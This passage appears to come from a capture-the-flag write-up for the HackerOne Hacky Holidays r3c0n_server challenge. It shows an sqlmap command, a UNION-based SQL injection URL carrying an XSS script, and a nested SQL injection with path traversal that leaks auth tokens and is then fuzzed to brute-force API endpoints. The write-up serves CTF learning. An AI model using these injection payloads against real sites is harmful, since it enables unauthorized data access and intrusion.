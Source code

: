 
```
sqlmap -u "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k" --risk 3 --level 3
```


[img19](https://i.imgur.com/R540OUq.png)
{F1138737}

The dumps provide us with nothing new. Bummer!! What's next? I thought of using the payload in the browser.

I found a **XSS**  thought this might get something lol, nothing

**STEP 0**: The SQli

`
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=hash=-7611%27%20UNION+SELECT%20NULL,NULL,%27%3Cscript%3Ealert(1)%3C/script%3E%27--%20-
`

After some hints in the server and Adam himself, it was clear that SQLi with an SQLi has to be used to get an auth token from the server, and then some more help from my fellow hacker in Hacker101 discord, it came down to brute-forcing the API but with new set of generated auths. In simple terms:

(SQLi, within an SQLi)

**URL**=`
https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=8291%27+UNION+SELECT+%22%27+union+select+1,2,%27../api/something%27%23%22,null,null%23
`

This link will generate a response that will have a nonexsisting image, which would look like this

```htmlembedded=
<div class="col-md-4">
<img class="img-responsive" src="/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcLy4uXC9hcGlcL3NvbWV0aGluZyIsImF1dGgiOiJiNGQ4ZTEzOWNkMWY4N2U5YjRmY2QyNmM2MmUyNzQyZiJ9">
</div>
```

which when decoded is nothing but 

```json=
{"image":"r3c0n_server_4fdk59\/uploads\/..\/api\/something","auth":"b4d8e139cd1f87e9b4fcd26c62e2742f"}
```



So every time **URL** is sent one has to extract the token from this `img` tag and send that again to search query in this fashion.

**STEP 1**: Take the fuzzed URL

URL=`
...link...hash=8291%27+UNION+SELECT+%22%27+union+select+1,2,%27../api/`**FUZZ**`%27%23%22,null,null%23
`

